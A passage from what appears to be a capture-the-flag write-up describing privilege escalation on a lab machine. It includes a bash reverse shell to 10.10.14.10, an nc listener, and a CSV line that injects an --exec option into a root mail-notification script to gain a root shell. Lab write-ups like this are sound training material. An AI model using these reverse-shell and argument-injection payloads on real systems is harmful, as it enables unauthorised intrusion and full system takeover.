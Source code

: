 > Note: We need to have the same content in the file in the server and in our burp because the script is actually comparing these value and checking that they are the same.

- We should have gotten a shell in our listener as www-data  
![shell as www-data](../.res/2023-01-04-16-44-52.png)  
- Let's have a look at this /var/www/private folder that gave us permission denied with the user bean
- In it there is a file called `leave_requests.csv`
- With `ps -aux` we can see this process

```bash
root         945  0.0  0.0   2988  1164 ?        S    01:11   0:00 inotifywait --quiet --monitor --event modify /var/www/private/leave_requests.csv
```

- If we tamper with the file it triggers this process

```bash
root         946  0.0  0.0  18624  1844 ?        S    01:11   0:00 /bin/bash /root/scripts/notify.sh
```

- And we can then see that it uses the mail command.
- So we can modify our previous shell or create a new one.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.10/4445 0>&1
```

- Researching on this command we can find the options --exec. See [here](https://www.computerhope.com/unix/umail.htm) for more info. So in the csv file we can add a line in the csv to get a root shell.
- So let's set a listener `rlwrap nc -lvp 4446` and then add the line to the file using echo like this `echo '" --exec="\!/tmp/getroot.sh"' >> leave_requests.csv`

- And we get our root shell and can grab the final flag
![root](../.res/2023-01-04-17-25-45.png)
